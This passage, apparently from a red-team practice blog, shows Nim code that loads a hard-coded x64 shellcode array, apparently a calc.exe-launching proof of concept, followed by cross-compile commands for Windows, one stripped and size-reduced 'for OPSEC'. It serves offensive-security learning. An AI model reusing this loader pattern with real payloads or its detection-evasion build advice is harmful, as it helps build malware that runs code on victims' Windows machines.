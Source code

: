 ```nim
  var shellcode: seq[byte] = @[byte 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc3]

  loadShellcode(shellcode)
```

# Demo

In order to compile our Nim code we will do it like this:

```sh
$ nim --os:windows --cpu:amd64 --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:release c main.nim
```

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice17/compile-1.png" alt="pic">

In case you want to reduce the executable size and its sections (which is better for OPSEC) you may do it like this:

```sh
$ nim --os:windows --cpu:amd64 --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:release -d:strip --opt:size c main.nim
```
